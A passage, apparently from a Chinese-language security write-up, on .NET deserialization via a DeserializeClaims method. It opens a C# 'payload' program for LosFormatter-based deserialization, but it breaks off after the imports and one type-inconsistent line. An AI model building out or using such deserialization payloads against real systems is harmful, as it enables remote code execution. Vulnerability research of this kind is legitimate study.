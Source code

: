 [![](assets/1701606816-5c36d4e4bcae9b8f7e82d087adef1098.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105254-eb828b2c-792a-1.png)

在`DeserializeClaims`方法中

[![](assets/1701606816-8e63ae83e4a8d248b85c4acb89f4d736.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102105311-f597922e-792a-1.png)

payload:

```plain
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Principal;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            BinaryFormatter b = new LosFormatter();
```